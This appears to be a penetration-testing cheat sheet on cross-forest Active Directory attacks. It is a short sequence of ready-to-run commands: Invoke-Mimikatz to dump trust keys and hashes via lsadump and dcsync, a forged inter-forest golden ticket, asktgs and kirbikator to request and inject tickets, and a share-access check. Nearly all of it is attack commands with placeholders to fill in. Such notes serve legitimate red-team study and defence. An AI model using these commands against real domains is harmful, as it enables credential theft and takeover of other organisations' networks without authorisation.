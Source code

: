 # 🟢 Crossforest attacks

#### Trust flow



**Dump trust keys**

Look for in trust key from child to parent (first command) Look for NTLM hash (second command)

```
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -Computername <computername>
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\mcorp$"'
```



**Create a intern-forest TGT**

```
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<domain> /sid:<domain sid> /rc4:<hash of trust> /service:krbtgt /target:<target> /ticket:<path to save ticket>"'
```



**Create a TGS for a service (kekeo\_old)**

```
./asktgs.exe <kirbi file> CIFS/<crossforest dc name>
```



**Use the TGT**

```
./kirbikator.exe lsa <kirbi file>
```



**Check access to server**

```
ls \\<servername>\<share>\
```
